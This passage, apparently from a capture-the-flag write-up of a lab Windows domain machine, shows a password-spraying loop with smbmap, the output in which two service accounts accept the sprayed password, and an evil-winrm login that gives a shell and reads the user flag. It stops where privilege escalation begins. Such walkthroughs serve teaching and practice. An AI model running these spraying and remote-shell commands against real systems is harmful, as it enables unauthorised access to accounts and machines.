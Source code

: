 We can now start the password-spraying attack using smbmap with a bash-loop or other tools like hydra or crackmapexec.

```bash
root@darkness:~# for user in $(cat full-users.txt); do echo "[*] Trying $user"...; smbmap -u $user -p '$fab@s3Rv1ce$1' -H 10.10.10.193; done | grep -v "error"
[*] Trying Administrator...
[*] Trying Guest...
[*] Trying krbtgt...
[*] Trying DefaultAccount...
[*] Trying svc-print...
[+] IP: 10.10.10.193:445        Name: fabricorp.local
	[...]
[*] Trying bnielson...
[*] Trying sthompson...
[*] Trying tlavel...
[*] Trying pmerton...
[*] Trying svc-scan...
[+] IP: 10.10.10.193:445        Name: fabricorp.local
	[...]
[*] Trying bhult...
[*] Trying dandrews...
[*] Trying mberbatov...
[*] Trying astein...
[*] Trying dmuir...
```

The password seems to work for both `svc-print` and `svc-scan`. We can try to get a shell by using evil-winrm now.

## Getting user-shell

Let us try both users and see if we get a shell

```powershell
root@darkness:~# evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i 10.10.10.193

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc-print\Documents>
```

We get a shell using the `svc-print` account and can now read user.txt.

```powershell
*Evil-WinRM* PS C:\Users\svc-print\Desktop> type user.txt
7edf6***************************
```

## Privesc

Now that we have a shell as user, let us enumerate the system and find a privesc vector to root.
